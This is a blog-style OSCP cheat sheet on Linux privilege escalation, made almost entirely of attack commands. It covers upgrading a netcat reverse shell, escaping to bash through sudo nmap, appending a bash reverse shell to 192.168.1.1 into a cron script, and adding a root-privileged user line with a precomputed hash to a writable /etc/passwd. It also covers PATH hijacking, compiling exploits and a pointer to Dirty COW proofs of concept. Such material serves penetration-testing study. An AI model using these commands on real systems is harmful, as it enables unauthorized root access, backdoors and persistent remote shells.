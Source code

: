 ```yaml
---
title: Linux Privilege Escalation
author: linatl
category: "OSCP"
date: "2021-03-23 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```




###### Tricks to improve a crappy shell
```
rlwrap
> rlwrap -r nc -nvlp 443

stty
> python -c 'import pty; pty.spawn("/bin/bash")'
next: CTRL + Z out of the shell. Then:
> stty raw -echo
> fg
Back in the shell, run:
> reset
> export SHELL=bash
> export TERM=xterm-256color
> stty rows <num> columns <cols>

More in-depth explanation and more tricks:
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
```

###### Sudo -l
```
List user privileges for sudo
> sudo -l

Nmap interactive
> sudo nmap --interactive
> nmap> !bash
```

###### crontabs
```
enumerating crontab:
> ls -al /etc/cron* /etc/at*
> cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/> dev/null | grep -v "^#"

Add a line to a file:
> echo "/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1" >> cleanup.sh
```

###### Writable /etc/passwd or /etc/shadow
```
Make the salt value of a password:
> openssl passwd -1 -salt ignite password
Add this line to /etc/passwd (get immediate root shell)
username:$1$ignite$tTBj87JPlfWJIFioYSmpC0:0:0:root:/root:/bin/bash
```

###### Path Hijacking
```
Add a value of a directory to path, put it in the front so this will be used first, before the real path of the service. Then you can make a malicious service with the same name in the added path, and that will run instead.

> path =/tmp:$PATH
> echo $PATH
```

###### GTFObins
```
https://gtfobins.github.io/
```


###### Compiling C Exploits
```
> gcc exploit.c -o exploit
Installing gcc libraries for cross compiling
> sudo apt-get install gcc-multilib
> gcc -m32 -Wall exploit.c -o exploit
```

###### Dirtyc0w
```
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
Note: the /proc/self/mem file is not writable on some RHEL/CentOS versions.
```

